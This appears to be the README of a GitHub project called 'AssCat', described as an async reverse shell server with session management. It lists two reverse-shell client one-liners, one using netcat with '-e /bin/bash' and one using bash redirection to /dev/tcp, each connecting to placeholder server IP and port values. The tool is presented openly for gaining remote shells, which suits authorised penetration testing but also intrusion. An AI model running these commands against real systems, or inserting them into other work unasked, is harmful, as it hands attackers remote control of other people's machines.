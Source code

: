 ## AssCat🍑 
### Async (Reverse) Shell Server  

<br>

#### Features
- session management

<br>

Supports raw shell clients like:

```nc <SERVER_IP> <SERVER_PORT> -e /bin/bash```

or:

```bash -i >& /dev/tcp/<SERVER_IP>/<SERVER_PORT> 0>&1```

etc...